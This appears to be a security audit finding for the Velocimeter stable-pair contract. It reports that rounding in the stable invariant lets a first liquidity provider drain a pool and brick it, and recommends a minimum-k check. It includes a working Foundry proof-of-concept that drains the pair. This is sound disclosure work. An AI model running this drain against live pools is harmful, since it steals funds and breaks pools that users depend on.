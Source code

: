 Gentle Green Mongoose

High

# First liquidity provider of a stable pair can DOS the pool

## Summary
Due to a rounding error with the invariant k of a stable pool the can suffer from a DOS attack.

## Vulnerability Detail
The invariant k of a stable pool is calculated as follows [Pair.sol#L403](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L403):
```solidity
    function _k(uint x, uint y) internal view returns (uint) {
        if (stable) {
            uint _x = x * 1e18 / decimals0;
            uint _y = y * 1e18 / decimals1;
            uint _a = (_x * _y) / 1e18;
            uint _b = ((_x * _x) / 1e18 + (_y * _y) / 1e18);
            return _a * _b / 1e18;  // x3y+y3x >= k
        } else {
            return x * y; // xy >= k
        }
    }
```
The value of `_a = (x * y ) / 1e18 = 0` due to rounding error when `x*y < 1e18`. The rounding error can lead to the invariant k of stable pools equals zero, and the trader can steal whatever is left in the pool.

The first liquidity provider can DOS the pair by: 
- 1.mint a small amount of liquidity to the pool
- 2. Steal whatever is left in the pool, 3 
- 3. Repeat step 1, and step 2 until the overflow of the total supply.

To prevent the issue of rounding error, the reserve of a pool should never go too small. The mint function which was
borrowed from UniswapV2 has a minimum liquidity check of `sqrt(a * b) > MINIMUM_LIQUIDITY` This, however,
isn't safe enough to protect the invariant formula of stable pools. [Pair.sol#L250](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L250)

```solidity
    function mint(address to) external lock returns (uint liquidity) {
        (uint _reserve0, uint _reserve1) = (reserve0, reserve1);
        uint _balance0 = IERC20(token0).balanceOf(address(this));
        uint _balance1 = IERC20(token1).balanceOf(address(this));
        uint _amount0 = _balance0 - _reserve0;
        uint _amount1 = _balance1 - _reserve1;

        uint _totalSupply = totalSupply; // gas savings, must be defined here since totalSupply can update in _mintFee
        if (_totalSupply == 0) {
            liquidity = Math.sqrt(_amount0 * _amount1) - MINIMUM_LIQUIDITY;
            _mint(address(0), MINIMUM_LIQUIDITY); // permanently lock the first MINIMUM_LIQUIDITY tokens
        } else {
            liquidity = Math.min(_amount0 * _totalSupply / _reserve0, _amount1 * _totalSupply / _reserve1);
        }
        require(liquidity > 0, 'ILM'); // Pair: INSUFFICIENT_LIQUIDITY_MINTED
        _mint(to, liquidity);

        _update(_balance0, _balance1, _reserve0, _reserve1);
        emit Mint(msg.sender, _amount0, _amount1);
    }
```

## Impact
Add this POC to [Pair.t.sol](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/test/Pair.t.sol):
```solidity
    function drainPair(Pair _pair, uint initialFraxAmount, uint initialDaiAmount) internal {
        DAI.transfer(address(pair), 1);
        uint amount0;
        uint amount1;
        if (address(DAI) < address(FRAX)) {
            amount0 = 0;
            amount1 = initialFraxAmount - 1;
        } else {
            amount1 = 0;
            amount0 = initialFraxAmount - 1;
        }
        pair.swap(amount0, amount1, address(this), new bytes(0));
        FRAX.transfer(address(pair), 1);
        if (address(DAI) < address(FRAX)) {
            amount0 = initialDaiAmount; // initialDaiAmount + 1 - 1
            amount1 = 0;
        } else {
            amount1 = initialDaiAmount; // initialDaiAmount + 1 - 1
            amount0 = 0;
        }
        pair.swap(amount0, amount1, address(this), new bytes(0));
    }

    function governor() public returns(address origin) {
        origin = tx.origin;//creating a stable pair requires governance and to pass the createPair check 
    }

    function testDestroyPair() public {
        vm.warp(block.timestamp + 1 weeks); // put some initial time in

        deployOwners();
        deployCoins();
        deployPairFactoryAndRouter();
        
        deal(address(FRAX), address(this), 100 ether);
        deal(address(DAI), address(this), 100 ether);

        factory.setVoter(address(this));
        pair = Pair(factory.createPair(address(DAI), address(FRAX), true));

        for(uint i = 0; i < 10; i++) {
            DAI.transfer(address(pair), 10_000_000);
            FRAX.transfer(address(pair), 10_000_000);
            // as long as 10_000_000^2 < 1e18
            uint liquidity = pair.mint(address(this));
            console.log("pair:", address(pair), "liquidity:", liquidity);
            console.log("total liq:", pair.balanceOf(address(this)));
            drainPair(pair, FRAX.balanceOf(address(pair)) , DAI.balanceOf(address(pair)));
            console.log("DAI balance:", DAI.balanceOf(address(pair)));
            console.log("FRAX balance:", FRAX.balanceOf(address(pair)));
            require(DAI.balanceOf(address(pair)) == 1, "should drain DAI balance");
            require(FRAX.balanceOf(address(pair)) == 2, "should drain FRAX balance");
        }
        DAI.transfer(address(pair), 1 ether);
        FRAX.transfer(address(pair), 1 ether);
        vm.expectRevert();
        pair.mint(address(this));
    }
```

## Code Snippet

[Pair.sol#L403](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L403)

[Pair.sol#L250](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L250)

## Tool used

Manual Review

## Recommendation
Consider adding two restrictions on the first LP of stable pools:
1. Only allow equal amounts of liquidity.
2. Invariant `_k` should be larger than the `MINIMUM_K`